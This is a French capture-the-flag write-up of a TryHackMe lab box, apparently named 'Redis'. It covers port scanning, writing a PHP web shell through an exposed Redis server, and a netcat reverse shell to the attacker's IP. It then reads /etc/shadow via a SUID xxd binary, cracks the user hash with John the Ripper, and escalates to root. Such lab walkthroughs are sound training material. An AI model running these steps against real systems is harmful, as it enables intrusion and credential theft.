 ##### <u>**1. NMAP**</u>

> sudo nmap -sSV -sC -p- 10.10.175.45
>

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-p- : Scan les ports de 1 à 65535.`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-18 16:25 CET
Nmap scan report for 10.10.172.86
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.52 seconds
```

On peut observer que redis est lancé sur le port 6379, et que apache est lancé sur le port 80.



La page web affiché est la page apache par défaut, rien d'intéressant dessus.

![image-20210218161506752](img/image-20210218161506752.png)

Il nous reste donc plus que le service redis.

En recherchant sur google "redis 6.0.7 exploit" on peut trouver le site suivant, ce-dernier nous montre plusieurs scénarios d'attaques sur redis.

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Il est possible de créer un fichier, et d'injecter du code à l'intérieur(donc un possible reverse shell)



##### <u>**2. REDIS:**</u>

> redis-cli -h 10.10.172.86
>
> 10.10.172.86:6379> config set dir /var/www/html/
> 10.10.172.86:6379> config set dbfilename redis.php
> 10.10.172.86:6379> set test "<?php phpinfo(); ?>"
> 10.10.172.86:6379> save

Retournons sur la page web et ajoutons /redis.php à la suite de l'ip.

![image-20210218161923506](img/image-20210218161923506.png)

La page php injecté est bien fonctionnel, il est alors possible d'injecter un reverse shell.

Mettons en place le reverse php.

> 10.10.172.86:6379> config set dir /var/www/html/
> 10.10.172.86:6379> config set dbfilename rev2.php
> 10.10.172.86:6379> set payload "<?php system('/bin/nc 10.9.2.162 4444 -e /bin/bash');?>"
> 10.10.172.86:6379> save

Il nous faut maintenant lancer netcat afin d'écouter le réseau et ainsi récuperer le reverse shell.

> sudo nc -lvnp 4444

```
Listening on 0.0.0.0 4444
```

Allons maintenant lancer la page web avec /rev2.php après l'ip.

![image-20210218164028303](img/image-20210218164028303.png)

La page charge à l'infini, retournons maintenant sur notre terminal ou l'on a lancé netcat.

```
Connection received on 10.10.172.86 35260
whoami
www-data
```

La connexion est réussis, nous voilà avec l'utilisateur www-data.

Pour rechercherle flag user.txt.

> find / -name user.txt | grep -v Perm

```
/home/vianka/user.txt
```

> cat /home/vianka/user.txt

```
thm{XXXXXXXXX}
```



##### <u>**3. PRIVEC (Partie 1):**</u>

find / -perm -u=s -type f 2>/dev/null

> find / -perm -u=s -type f 2>/dev/null

```
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
...
```

Regardons de plus près le software xxd.

> ls -l /usr/bin/xxd

```
-rwsr-xr-x 1 root root 18552 Mar 18  2020 /usr/bin/xxd
```

Grâce à xxd on peut lire certains fichier, de plus dans ce ctf tous les utilisateurs peuvent l'utiliser en tant que root et donc afficher certains fichier intéressant.

Comme par exemple le /etc/passwd ainsi que le le /etc/shadow qui nous permettrait de récuperer les login/mdp des users.

> LFILE=/etc/passwd
> xxd "$LFILE" | xxd -r

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

> LFILE=/etc/shadow
> xxd "$LFILE" | xxd -r

```
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Nous voilà maintenant avec un utilisateur(vianka) et son mot de passe chiffré.

Maintenant il va nous falloir utiliser john the ripper pour bruteforce le mot de passe chiffré.



##### <u>**4. JOHN:**</u>

Il faut commencer par adapté les 2 fichiers pour que john puisse les lire.

> unshadow passwd.txt shadow.txt > password.txt

Tentons de bruteforce le mot de passe de vianka.

> john --wordlist=/home/ethost/Documents/wordlist/probable-v2-top12000.txt password.txt 

```
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:15 41% 0g/s 344.4p/s 344.4c/s 344.4C/s rosewood..temporal
beautiful1       (vianka)
1g 0:00:00:30 100% 0.03226g/s 343.8p/s 343.8c/s 343.8C/s bliss..setup
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nous voilà maintenant avec le mot de passe de vianka.

Pour récuperer le dernier flag nous avons 2 solutions.

En présumant que le flag soit à la racine de root donc dans le path suivant /root/root.txt

Nous pouvons tout simplement utiliser xxd à nouveaux pour le récuperer.(Celà marche)

> LFILE=/root/root.txt
> xxd "$LFILE" | xxd -r

Mais tentons tout de même de gagner l'accès root.

L'accès ssh de vianka étant bloqué il va nous falloir utiliser le reverse shell créé.

> su vianka

En faisant un *sudo -l* avec l'utilisateur vianka on peut voir que ce dernier possède les droits root.

Nous avons plus qu'à faire *sudo su* pour devenir root.

> find / -name root.txt | grep -v Perm

```
/root/root.txt
```

> cat /root/root.txt

```
thm{XXXXXXXXXXXX}
```



Celà conclu donc la box <u>Redis</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>